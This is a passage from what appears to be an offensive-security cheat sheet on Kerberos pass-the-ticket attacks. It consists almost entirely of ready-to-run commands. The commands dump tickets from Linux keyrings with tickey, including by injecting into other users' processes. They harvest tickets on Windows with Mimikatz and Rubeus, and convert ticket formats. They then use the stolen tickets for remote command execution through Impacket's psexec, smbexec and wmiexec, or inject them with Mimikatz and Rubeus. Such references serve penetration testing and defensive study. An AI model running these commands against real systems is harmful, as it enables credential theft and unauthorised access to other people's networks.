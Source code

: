 In case of being *KEYRING* tickets, you can use [tickey](https://github.com/TarlogicSecurity/tickey) to get them:

```shell
# To dump current user tickets, if root, try to dump them all by injecting in other user processes
# to inject, copy tickey in a reachable folder by all users
cp tickey /tmp/tickey
/tmp/tickey -i
```

### Harvest tickets from Windows

With [Mimikatz](https://github.com/gentilkiwi/mimikatz):
```shell
mimikatz # sekurlsa::tickets /export
```

With [Rubeus](https://github.com/GhostPack/Rubeus) in Powershell:
```shell
.\Rubeus dump

# After dump with Rubeus tickets in base64, to write the in a file
[IO.File]::WriteAllBytes("ticket.kirbi", [Convert]::FromBase64String("<bas64_ticket>"))
```


To convert tickets between Linux/Windows format with [ticket_converter.py](https://github.com/Zer1t0/ticket_converter):

```
python ticket_converter.py ticket.kirbi ticket.ccache
python ticket_converter.py ticket.ccache ticket.kirbi
```

### Using ticket in Linux:

With [Impacket](https://github.com/SecureAuthCorp/impacket) examples:
```shell
# Set the ticket for impacket use
export KRB5CCNAME=<TGT_ccache_file_path>

# Execute remote commands with any of the following by using the TGT
python psexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
python smbexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
python wmiexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
```


### Using ticket in Windows

Inject ticket with [Mimikatz](https://github.com/gentilkiwi/mimikatz):
```shell
mimikatz # kerberos::ptt <ticket_kirbi_file>
```

Inject ticket with [Rubeus](https://github.com/GhostPack/Rubeus):
```shell
.\Rubeus.exe ptt /ticket:<ticket_kirbi_file>
```

